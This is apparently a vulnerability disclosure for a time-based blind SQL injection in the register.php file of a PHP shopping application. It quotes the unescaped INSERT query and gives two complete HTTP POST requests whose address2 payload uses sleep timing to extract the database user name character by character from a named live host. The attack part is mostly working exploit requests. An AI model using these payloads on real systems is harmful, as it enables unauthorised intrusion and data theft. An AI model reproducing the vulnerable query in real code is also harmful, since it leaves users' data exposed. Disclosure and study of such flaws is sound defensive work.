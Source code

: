 ### Vulnerability file address

`register.php` from line 4,The $address2 parameter is controllable, the parameter address2 can be passed through post, and the $address2 is not protected from sql injection, resulting in sql injection

```php
<?php
session_start();
include "db.php";
if (isset($_POST["f_name"])) {

  $f_name = $_POST["f_name"];
  $l_name = $_POST["l_name"];
  $email = $_POST['email'];
  $password = $_POST['password'];
  $repassword = $_POST['repassword'];
  $mobile = $_POST['mobile'];
  $address1 = $_POST['address1'];
  $address2 = $_POST['address2'];
  $name = "/^[a-zA-Z ]+$/";
  $emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
  $number = "/^[0-9]+$/";
......
......
......
$sql = "INSERT INTO `user_info` 
		(`user_id`, `first_name`, `last_name`, `email`, 
		`password`, `mobile`, `address1`, `address2`) 
		VALUES (NULL, '$f_name', '$l_name', '$email', 
		'$password', '$mobile', '$address1', '$address2')";
		$run_query = mysqli_query($con,$sql);
```

### POC

success

```http
POST /register.php HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 166
Origin: http://www.onsp.net
Connection: close
Referer: http://www.onsp.net/
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25

f_name=a&l_name=a&email=2%40qq.com&password=123456789&repassword=123456789&mobile=1111111111&address1=123&address2=7' and if(ascii(mid(user(),1,1))=114,sleep(2),0));#
```



failed

```http
POST /register.php HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 166
Origin: http://www.onsp.net
Connection: close
Referer: http://www.onsp.net/
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25

f_name=a&l_name=a&email=3%40qq.com&password=123456789&repassword=123456789&mobile=1111111111&address1=123&address2=7' and if(ascii(mid(user(),1,1))=115,sleep(2),0));#
```



### Attack results pictures

#### success

![image-20220729191256273](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729191256.png)

#### failed

![image-20220729191223116](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729191223.png)